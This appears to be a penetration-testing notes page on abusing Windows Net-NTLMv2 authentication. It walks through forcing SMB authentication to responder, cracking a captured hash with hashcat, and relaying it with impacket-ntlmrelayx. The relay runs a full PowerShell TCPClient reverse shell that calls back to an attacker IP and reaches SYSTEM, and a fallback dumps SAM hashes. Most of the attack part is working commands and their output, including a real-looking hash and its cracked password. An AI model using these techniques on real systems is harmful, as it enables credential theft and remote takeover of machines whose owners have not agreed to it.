

# NTLMv2

If we gain access as an unprivileged user and cannot use tools like [`mimikatz`](../ad-tools/mimikatz.md), we can abuse the Net-NTLMv2 network authentication protocol which is responsible for managing the authentication process for Windows clients and servers over a network.

> _Net-NTLMv2 exists on almost all Windows environments for combatibility purposes and_ _it's less secure than the more modern Kerberos protocols._

## SMB Authentication

### Direct SMB Auth

1. We'll send the server a request, outlining the connection details to access the SMB share.
2. Then the server will send us a challenge in which we encrypt data for our response with our NTLM hash to prove our identity.
3. The server will then check our challenge response and either grant or deny access, accordingly.

We can force this using `responder` by connecting from the target to its SMB server as shown below:



```bash
# achieving RCE as a non-privileged user
$ nc 192.168.235.211 4444
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
files01\paul

C:\Windows\system32>net user paul
net user paul
User name                    paul
Full Name                    paul power
<SNIP>

Local Group Memberships      *Remote Desktop Users *Users
```



```bash
# launching the SMB server on the attacking machine
$ sudo responder -I tun0
```



```powershell
# connecting to a non-existent share to force authentication
C:\Windows\system32>dir \\192.168.45.186\test
dir \\192.168.45.186\test
Access is denied.
```






```bash
# capturing the Net-NTLMv2 with responder
[SMB] NTLMv2-SSP Client   : 192.168.235.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:91d195901d36c03d:291C9E3E12771174CD6286D657C2C0C9:010100000000000080850BA812A2DB01710884AB8C24419C0000000002000800330059005400520001001E00570049004E002D004300430056004300500057005700520039003900410004003400570049004E002D00430043005600430050005700570052003900390041002E0033005900540052002E004C004F00430041004C000300140033005900540052002E004C004F00430041004C000500140033005900540052002E004C004F00430041004C000700080080850BA812A2DB0106000400020000000800300030000000000000000000000000200000104E03C87D48BBB6D80BF2579BC979DA56B1D0BDBF6575FD55E2565FF6CACFD00A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003100380036000000000000000000
```






```bash
# cracking the NTLMv2 hash
$ hashcat -m5600 paul_hash /usr/share/wordlists/rockyou.txt
<SNIP>

PAUL::FILES01:91d<SNIP>000:123Password123
```



### SMB Auth via Upload

If we haven't achieved RCE, we could check for a file upload form in a web application on a Windows server and enter a non-existing file with a UNC path such as `\\<attacker-IP>\share\nonexistent.txt`. If the web app supports SMB uploads, the Windows server will authenticate to our SMB server.

> _**UNC Path Interpretation:**_
>
> * _Powershell interprets UNC paths directly: `\\server\share`._
> * _Web requests interpret UNC paths according to the programming language used. Most of them treat  `\` as an escape character, thus, it needs to be doubled in order to make it a literal: `\\\\server\\share`._

<figure><figcaption></figcaption></figure>

### BadPDF

If a file upload functionality is present, we can create and upload a malicious PDF file and force SMB authentication to our attacking machine. See more in: [File Uploads](../../../web/file-uploads.md) → [PDFs](../../../web/file-uploads.md#pdfs).

## NTMLv2 Relay

If we’ve captured the NTLMv2 hash of a domain user (for example, through a [malicious `.lnk` file](../../../services/tcp/shares/139-445-smb.md#hashes)), but can’t crack it, we can still use it in a relay attack.&#x20;


To successfully gain **remote code execution (RCE)** on the target host via NTLM relaying:

1. The relayed user account must have **administrative privileges on the target**.
2. The target host must have **UAC remote restrictions disabled**; otherwise, command execution will fail unless relaying to the built-in **local Administrator** account.

If options like `-c` or `-i` in `ntlmrelayx` silently fail but actions like dumping the SAM still succeed, it's likely due to antivirus interference blocking payload execution.


Our objective is to start an SMB server on the attacking machine using the `ntlmrelayx` module. This server will relay the NTLMv2 authentication to the target machine and execute a supplied command — in this case, a reverse shell payload. We can use CLI tools or [CyberChef](https://cyberchef.io/#recipe=Encode_text\('UTF-16LE%20\(1200\)'\)To_Base64\('A-Za-z0-9%2B/%3D'\)) to Base64-encode the reverse shell for use in the payload:




```powershell
# Base64 encoding the reverse shell payload
$client = New-Object System.Net.Sockets.TCPClient('192.168.X.186',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()as | iconv -t UTF-16LE | base64 -w 0
```





```bash
# Relay the payload to the target machine
$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.X.212 -c "powershell -enc JAB...AA=="
```




```bash
# Start a listener on the attacking machine
$ nc -nvlp 8080
```




```bash
$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.X.212 -c "powershell -enc JABjAGwAa<SNIP>=="
<SNIP>

[*] Servers started, waiting for connections
[*] SMBD-Thread-4 (process_request_thread): Received connection from 192.168.X.211, attacking target smb://192.168.X.212
[*] Authenticating against smb://192.168.X.212 as FILES01/FILES02ADMIN SUCCEED
[*] All targets processed!
```




```bash
# Catch the reverse shell
$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.X.186] from (UNKNOWN) [192.168.X.212] 65367
PS C:\users\files02admin\desktop> whoami
nt authority\system
```



In case the reverse shell does not work, `ntlmrelayx` will dump the SAM by default:


```bash
$ sudo impacket-ntlmrelayx -smb2support -t 192.168.163.174
...
[*] Target system bootKey: 0x99439972b8f85f1d0e63f6603bc9585d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:15759746f66f2da88d58f0160f8ee676:::
...
```

